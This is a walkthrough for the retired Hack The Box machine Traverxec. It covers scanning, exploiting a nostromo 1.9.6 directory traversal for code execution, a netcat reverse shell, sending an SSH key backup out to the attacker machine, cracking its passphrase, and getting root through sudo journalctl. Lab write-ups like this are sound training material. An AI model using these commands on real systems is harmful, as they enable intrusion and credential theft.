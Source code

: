 For all the machines I do, I always start off with an nmap scan.  First a quick port scan and then a detailed port scan.
I start off by using nmap -p- -T4 10.10.10.165
This shows us that we have two ports open, 22 and 80.  On hack the box we don't need to brute force SSH, because there's other ways in.

Let's go ahead and get some version information about the services and the operating system.
nmap -p22,80 -A -O -sV -T4 10.10.10.165 -oA Traverxec
Here we are specifcally scanning the ports that we know are open with -p22,80, we use -A for OS detection, version detection, script scanning and traceroute, -sV specifcally for identifying service versions, -T4 for speed (-T5 is fastest, but tends to knock over hosts), -O is for Operating System detection again, and finally -oA Filename will put the output out in 3 different formats

Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   52.86 ms 10.10.14.1
2   52.95 ms 10.10.10.165

Great we get the version of the http web server is 1.9.6.  Now we can visit the page and explore.  I always run dirbuster against web sites to look for the various directories.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.165

After visiting http://10.10.10.165/admin we trigger an error and once again see that the version is nostromo 1.9.6.  Searching google we find some exploit code here https://www.exploit-dm.com/exploits/43837.
This says it is remote code execution, perfect exactly what we need.

Looking through the usage we need a target IP, target port, and a command to pass it.  The vulnerability is due to directory traversal where we can make a POST request using a few .0%d/ and eventually call a shell.
we are starting at a specific directory where the web server is sitting and moving up directories until we can then move into /bin where all the binaries are stored.
If you want to view the contents of the binary folder or any folder just visit http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./ This link shows you the contents of root.
select the bin folder if you want to see what binaries you can run and home to see what users are on the machine.

To use the exploit code just save the code from exploit db into a file called cve2019_16278.py.  Then we want to run the command.  From looking at /bin we know what different binaries we can call from visiting here http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/.

The problem is a lot of them have 500 interal server error.  I made a list of all the files and then used foxy proxy and burp to capture the request of visiting http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/apt-cache
Any binary path would work here.
Once you open burp, go to the proxy tab and turn intercept on.  Also your foxy proxy needs to be configured to send traffic through burp which is listening in my case on 8080.
![Burp Intercepted Request](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Intercepted%20Request.jpg)


Once we get the request the first line will look like this:  GET /.0%D./.0%D./.0%D./.0%D./bin/apt-cache.  Right click the request and send to Intruder.
In intruder choose Sniper as the Attack Type and highlight apt-cache or whatever is after /bin/ and click Add.  Then under the payloads tab, paste the list you made earlier of all the binaries and click start attack.
This could be slowed down if you are running the free Burp, which I am.

We notice that bash gets a 500 Status, but sh gets a 200, so let's use sh in our exploit.

First start a netcat listener on your kali machine, nc -nlvp 4444.  You can use any port here.
Now cd into the folder where your exploit code is saved at from above.  My code is called cve2019_16278.py, remember we need to give it a target IP, target port, and command.  I had to use quotes for commands to pass it the arguments.
python cve2019_16278.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.26 4444"
the IP after /bin/sh is your Hack The Box VPN and the port your netcat is listening on.

Check your connection and we have a shell!  Here is our initial access!
The problem is that our shell is pretty limited luckily we can upgrade it by using python!  python -c 'import pty; pty.spawn("/bin/sh")'
now we have an upgraded shell.
Check whoami and find our we are www-data.

Looking around check the /home directories to see who some of the users are, which the only one is david.  Check David's directory, we are denied access.
Let's look for configuration files by using the command:  find / -type f -iname '*.conf'
Here we are starting at the root directory and looking for files that are .conf.
We notice there'a file in /var/nostromo/conf/ titled nhttpd.conf.  There are some issues using commands on this machine, so you have to use the full path.  We want to cat out the file so do which cat to know the path.
Finally /usr/bin/cat /var/nostromo/conf/nhttpd.conf.  This file shows us that in home dirs there is a homedirs_public directory called public_www
Let's see what may be in that folder so do ls /home/david/public_www.  There a protected file area, maybe we can move into that directory.  cd /home/david/public_www/protected-file-area and list the files.  Great we have backup-ssh-identify-files.tgz!
Let's move this file over to our attacker machine, which we can do via netcat.  On kali run: nc -l -p 1234 > backup-ssh-identity-files.tgz.  Our machine is now waiting for that file.
Let's see where netcat lives on our target by doing which nc, it's in /usr/bin/nc. Now send that file to the attacker machine by doing /usr/bin/nc -w 3 10.10.14.26 1234 < backup-ssh-identity-files.tgz
Now we have the file on our target file, let's uncompress the file by doing tar zxvf backup-ssh-identity-files.tgz and cat out the id_rsa file that comes out.
Well the first thing we notice is the file is encrypted, but that's no issue for tools like John the Ripper!
We can use the program ssh2john which is a python program that can properly format the file so we can then crack the key for id_rsa.

I put this in my sbin folder on kali so I did cd /usr/sbin, then grab the file by doing wget https://github.com/magnumripper/JohnTheRipper/tree/bleeding-jumbo/run/ssh2john.py.
Now I copied the file over to my directory for HackTheBox where my id_rsa file is stored.  Then do python ssh2john.py id_rsa > crack.txt.  We are outputting this to crack.txt to later crack the password for the id_rsa file.  If you cat crack.txt you can see the id_rsa file that's formatted as id_rsa:$sshng etc.
Finally use JohnTheRipper to crack the key for that file by doing john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt   Here we are telling john what wordlist to use and what file to try and crack.  It quickly finds the key to be hunter.
Now let's decrypt the id_rsa file by using openssl.   openssl rsa -in id_rsa -out dec.key It will prompt you for the password so enter hunter.
Finally ssh into the target by doing, ssh -i dec.key david@10.10.10.165
Great we can access the machine via SSH and we can cat out the user.txt file and submit that to HackTheBox!

Now starts privilege escalation!

I always start off by seeing what my user can do with sudo, but since we don't have david's password, we can't actually check this.

when you ls on david's home directory we notice a /bin folder which is interesting, so cd into /bin.  There's a server-stts.sh file, remember to run this we have to call bash with the full path.
/usr/bin/bash ./server-stats.sh.  This shows us the last 5 journal log lines, let's look at the actual file, cat server-stats.sh.
Notice at the bottoms the script calls /usr/bin/sudo and then executes journalctl as root!  Great, we are on to something!
journalctl is a command for viewing logs collected by systemd.

Since we know we can display 5 lines, you need to change the size of your terminal so it doesn't display all the lines at the bottom you see lines 1-6
enter !/bin/sh
we are in a root shell, use whoami to verify, and finally simply cat /root/root.txt and that's the machine!  

I hope you enjoyed my journey through Traverxec!











